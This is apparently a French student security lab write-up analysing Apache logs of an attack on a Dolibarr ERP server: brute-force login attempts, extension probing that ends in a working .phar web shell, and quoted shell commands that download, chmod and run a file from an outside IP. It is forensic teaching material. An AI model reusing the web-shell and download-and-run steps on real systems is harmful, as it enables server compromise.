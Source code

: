 # Securite - TP4

## Exercice 1

## Exercice 2 

### 1.

L'attaque brute-force dans les logs commence par une série de requêtes répétitives vers le fichier `auth.php` sur le service ERP Dolibarr. Ces requêtes semblent provenir de l'adresse IP `192.168.1.10` et utilisent l'outil `Wget`, ce qui est suspect, il peut être utilisé pour automatiser des requêtes.

Les premières lignes pertinentes des logs qui montrent cette séquence de requêtes répétées :

```txt
192.168.1.10 - - [23/May/2023:09:36:21 +0100] "POST /dolibarr/htdocs/modules/auth.php HTTP/1.1" 200 7535 "-" "Wget/1.21"
192.168.1.10 - - [23/May/2023:09:36:23 +0100] "POST /dolibarr/htdocs/modules/auth.php HTTP/1.1" 200 7535 "-" "Wget/1.21"
192.168.1.10 - - [23/May/2023:09:36:25 +0100] "POST /dolibarr/htdocs/modules/auth.php HTTP/1.1" 200 7535 "-" "Wget/1.21"
```

Cela montre que l'attaque commence le **23 mai 2023 à 09:36:21**. L'attaque bruteforce se manifeste par des requêtes POST successives au même fichier `auth.php`, ce qui suggère des tentatives répétées de connexion ou d'authentification.

### 2.

L'attaquant a tenté plusieurs extensions de fichiers PHP afin de trouver une vulnérabilité. Voici les extensions testées dans les logs, basées sur les requêtes faites par l'attaquant après la série brute-force réussie :

```txt
192.168.1.10 - - [23/May/2023:09:54:17 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php?id=2 HTTP/1.1" 200 7439 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:17 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.phtml?id=2 HTTP/1.1" 200 7778 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phtml?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php3?id=2 HTTP/1.1" 200 7817 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php3?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php4?id=2 HTTP/1.1" 200 7861 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php4?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php5?id=2 HTTP/1.1" 200 7893 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php5?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php6?id=2 HTTP/1.1" 200 7936 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php6?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php7?id=2 HTTP/1.1" 200 7976 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php7?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
```

Les extensions testées par l'attaquant sont :

1. `.php`
2. `.phtml`
3. `.php3`
4. `.php4`
5. `.php5`
6. `.php6`
7. `.php7`

L'attaquant essaie ces extensions pour trouver un fichier vulnérable capable d'exécuter du code via une requête POST.

### 3.

Examinons attentivement les logs après que l'attaquant ait testé plusieurs extensions :

1. **Examen des extensions utilisées** : Après avoir testé plusieurs extensions comme `.php`, `.phtml`, `.php3`, `.php4`, `.php5`, `.php6`, `.php7`, et avoir reçu principalement des erreurs `404` (fichier non trouvé), il y a une exception notable : l'extension **`.phar`**.

2. **Requête spécifique avec `.phar`** :
   - L'attaquant effectue une requête vers le fichier `64nxlskk.phar` :
     ```
     192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.phar?id=2 HTTP/1.1" 200 7736 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
     ```
   - Le code réponse est **200**, ce qui indique que cette requête a réussi. Cela signifie que le serveur a répondu positivement à cette requête, contrairement aux autres tentatives avec les extensions précédentes qui renvoyaient des erreurs `404`.

3. **Suivi de l'attaque** : Après l'utilisation réussie de l'extension `.phar`, on voit plusieurs requêtes GET avec le paramètre `cmd=id` :
   ```
   192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=id HTTP/1.1" 200 257 "-" "python-requests/2.25.1"
   ```
   - Cette requête renvoie également un code réponse **200**, suggérant que l'attaquant a réussi à exploiter une vulnérabilité dans le fichier `.phar`.

4. **Confirmation** : L'extension `.phar` est la seule qui a fonctionné avec succès et a été utilisée par l'attaquant pour exécuter des commandes sur le serveur via le paramètre `cmd=id`.

On en déduit donc que l'extension que l'attaquant utilise finalement pour poursuivre l'attaque est **`.phar`**, après avoir testé plusieurs autres extensions sans succès.

### 4.

Voici les lignes pertinentes :

```
192.168.1.10 - - [23/May/2023:09:55:20 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=wget%20http://240.123.207.20/fiche_de_poste.odt HTTP/1.1" 200 486 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.1.10 - - [23/May/2023:09:55:38 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=mv%20fiche_de_poste.odt%20fiche_de_poste HTTP/1.1" 200 203 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.1.10 - - [23/May/2023:09:55:52 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=chmod%20755%20fiche_de_poste HTTP/1.1" 200 203 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.1.10 - - [23/May/2023:09:58:22 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=./fiche_de_poste HTTP/1.1" 200 245 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```

### Analyse des commandes exécutées :

1. **Commande 1 (wget)** :
   ```
   192.168.1.10 - - [23/May/2023:09:55:20 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=wget%20http://240.123.207.20/fiche_de_poste.odt HTTP/1.1" 200 486
   ```
   - L'attaquant utilise la commande **`wget`** pour télécharger un fichier appelé **`fiche_de_poste.odt`** depuis l'adresse IP **240.123.207.20**.
   - Cette commande est utilisée pour récupérer un fichier à distance et l'enregistrer sur le serveur compromis.

2. **Commande 2 (mv)** :
   ```
   192.168.1.10 - - [23/May/2023:09:55:38 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=mv%20fiche_de_poste.odt%20fiche_de_poste HTTP/1.1" 200 203
   ```
   - L'attaquant renomme ensuite le fichier téléchargé avec la commande **`mv`**, en le passant de **`fiche_de_poste.odt`** à **`fiche_de_poste`**.
   - Cela peut être une étape pour préparer ce fichier à être exécuté comme un script ou un programme.

3. **Commande 3 (chmod)** :
   ```
   192.168.1.10 - - [23/May/2023:09:55:52 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=chmod%20755%20fiche_de_poste HTTP/1.1" 200 203
   ```
   - L'attaquant modifie les permissions du fichier avec la commande **`chmod 755`**. 
   - Cela donne des permissions d'exécution (lecture, écriture, et exécution pour l'utilisateur) au fichier **`fiche_de_poste`**, ce qui indique que le fichier est probablement un script ou un programme que l'attaquant veut exécuter.

4. **Commande 4 (exécution du fichier)** :
   ```
   192.168.1.10 - - [23/May/2023:09:58:22 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=./fiche_de_poste HTTP/1.1" 200 245
   ```
   - Enfin, l'attaquant exécute directement le fichier **`fiche_de_poste`** en utilisant **`./fiche_de_poste`**, ce qui indique que le fichier téléchargé est exécuté comme un script ou un binaire.
   - Cela suggère que ce fichier pourrait contenir du code malveillant ou être un outil permettant à l'attaquant de poursuivre l'exploitation du serveur.

